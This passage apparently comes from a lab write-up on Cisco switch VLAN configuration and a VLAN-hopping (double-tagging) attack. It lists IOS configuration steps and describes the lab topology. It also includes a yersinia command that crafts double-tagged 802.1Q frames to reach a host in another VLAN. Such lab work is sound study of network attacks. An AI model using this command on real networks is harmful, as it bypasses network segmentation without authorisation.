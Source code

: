 </center>

:::spoiler
1.    enable
2.    configure terminal
3.    vlan vlan-id
4.    name vlan-name
5.    mtu mtu-size
6.    remote-span
7.    end
8.    show vlan {name vlan-name | id vlan-id}
9.    copy running-config startup-config 

add vlan
1.    configure terminal
2.    interface interface-id
3.    switchport mode `dynamic auto` (preconfigured) or `desirable` for 3
most of the web sites suggest to use `mode access` , because it is not working with it
5.    switchport access vlan vlan-id
6.    end
7.    show running-config interface interface-id
8.    show interfaces interface-id switchport 

https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst2960x/software/15-2_2_e/vlan/configuration_guide/b_vlan_1522e_2960x_cg/b_vlan_152ex_2960-x_cg_chapter_011.html

:::

:::info
2. Double tagging
:::

After configuring network topology for this type of attack, we can see the status of the interface on the Cisco switch, as it was said previously one link is configured in the native trunk state. You can see screenshots with the status on the picture below.

<center>

![](https://i.imgur.com/UF7Ul22.png)
Picture 11. user side switch
    
![](https://i.imgur.com/r3156bN.png)
Picture 12. attacker side switch
    
</center>

Firstly, we will show how the attacker can ping users with the IP address 192.168.1.11 because they are in the same Vlan, you can see proof of that in the 3 pictures below.

```
sudo yersinia dot1q -attack 1 -source 0E:5C:49:19:32:BF -dest FF:FF:FF:FF:FF:FF -vlan1 0200 -priority1 07 -cfi1 0 -l2proto1 800 -vlan2 0300 -priority2 07 -cfi2 0 -l2proto2 800 -ipsource 192.168.1.100 -ipdest 192.168.1.12 -ipproto 1 -payload YERSINIA -interface ens3
```

<center>
    